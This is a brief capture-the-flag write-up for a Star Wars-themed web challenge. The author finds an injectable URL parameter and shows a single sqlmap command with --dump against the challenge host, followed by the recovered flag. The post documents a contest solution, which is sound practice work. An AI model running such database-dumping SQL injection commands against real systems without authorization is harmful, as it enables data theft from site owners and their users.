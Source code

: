 # Undercover Orientation Day

> Hello Rebel, we have a special mission for you. We need you to go undercover as a Storm Trooper for their first day on the job. We have intel that suggests the Orientation Website has a vulnerability in it that will potentially leak important information. Can you find the secret plans?
> 
> Link

For this one, I noticed that the listed URLs included a variable, so I just threw it into SQLMap

```
$ sqlmap -u 'https://challenges.silicon-ctf.party/web300/event_details?event=Meet%20and%20Greet' --dump
...
silicon{Once_This_Group_Of_Stormtroopers_Is_Trained_we_target_Hoth}
...
```